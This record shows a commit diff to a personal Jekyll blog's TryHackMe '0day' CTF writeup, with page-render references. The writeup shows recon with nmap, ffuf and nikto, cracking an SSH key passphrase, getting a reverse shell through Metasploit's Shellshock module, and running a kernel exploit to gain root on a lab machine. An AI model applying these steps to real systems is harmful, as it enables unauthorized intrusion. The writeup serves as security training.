

Before and after one commit to bvr0n/bvr0n.github.io, a Jekyll site: the page built from _posts/thm/2021-01-08-0day.md, in a window 1280 px wide and 1400 px high, scrolled down 916 px. Shown: the whole window at 92% size, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
Update and rename 2020-11-10-0day.md to 2021-01-08-0day.md

````diff
--- a/_posts/thm/2020-11-10-0day.md
+++ b/_posts/thm/2021-01-08-0day.md
@@ -2,13 +2,13 @@
 title : 0day - Writeup
 ---
 
-_**Nov 10, 2020**_
+_**Jan 01, 2020**_
 
 [0day](https://tryhackme.com/room/0day) Writeup
 
 ## Recon :
 
-```
+```sh
 bvr0n@kali:~/CTF/THM/0day$ nmap -sC -sV 10.10.86.209
 Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 15:38 EST
 Nmap scan report for 10.10.86.209
@@ -29,7 +29,7 @@
 
 ## Web Recon :
 
-```
+```sh
 bvr0n@kali:~/CTF/THM/0day$ ffuf -c -u http://10.10.86.209/FUZZ -w ~/Documents/Dirbuster/wordlist.txt
 
 ________________________________________________
@@ -52,7 +52,7 @@
 ```
 
 `/backup/` have a SSH private key, Let's crack it for a password.
-
+sh
 ```
 bvr0n@kali:~/CTF/THM/0day$ sudo john test --wordlist=/home/bvr0n/Documents/rockyou.txt
 Using default input encoding: UTF-8
@@ -60,10 +60,10 @@
 Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
 Cost 2 (iteration count) is 1 for all loaded hashes.
 Press 'q' or Ctrl-C to abort, almost any other key for status
-letmein          (id_rsa)
+*******          (id_rsa)
 ```
 This was eventually a rabbit hole haha, i decided to bring `nikto` he may help me :
-
+sh
 ```
 bvr0n@kali:~/CTF/THM/0day$ nikto -h 10.10.86.209
 - Nikto v2.1.6
@@ -71,7 +71,7 @@
 + Target IP:          10.10.86.209
 + Target Hostname:    10.10.86.209
 + Target Port:        80
-+ Start Time:         2020-11-10 15:54:28 (GMT-5)
++ Start Time:         2021-01-08 15:54:28 (GMT-5)
 ---------------------------------------------------------------------------
 + Server: Apache/2.4.7 (Ubuntu)
 + The anti-clickjacking X-Frame-Options header is not present.
@@ -103,7 +103,7 @@
 
 I searched for it in metasploit and found 11 modules, but this one matches what we need :
 
-```
+```sh
    5   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)7
 ```
 This is what we need to configure :
@@ -115,7 +115,7 @@
 ```
 Type exploit and wait for it :
 
-```
+```sh
 msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
 
 [*] Started reverse TCP handler on 10.8.14.157:4444
@@ -130,16 +130,16 @@
 
 So i did a few enumeration and i found out that this machine is running an outdated kernel :o
 
-```
+```sh
 www-data@ubuntu:/home/ryan$ uname -a
 Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
 ```
 
-I searched for this version and found an [Exploit](https://www.exploit-db.com/exploits/37292) for it, so let's get this root.
+I searched for this version and i found this [Exploit](https://www.exploit-db.com/exploits/37292), so let's get this root.
 
-I uploaded the exploit to the machine via my machine and compiled it :
+I uploaded the exploit to the machine via my machine and compiled it, since we have `gcc` there :
 
-```
+```sh
 www-data@ubuntu:/tmp$ gcc Kernel_exploit.c -o kec
 www-data@ubuntu:/tmp$ ./kec
 spawning threads
@@ -153,14 +153,4 @@
 root
 ```
 
-
-<br>
-best regards
-
-[bvr0n](https://github.com/bvr0n)
-
-
-<br>
-[back to main()](https://bvr0n.github.io/)
-
-<br>
+And now we are `root`, hope you learned something new.
````
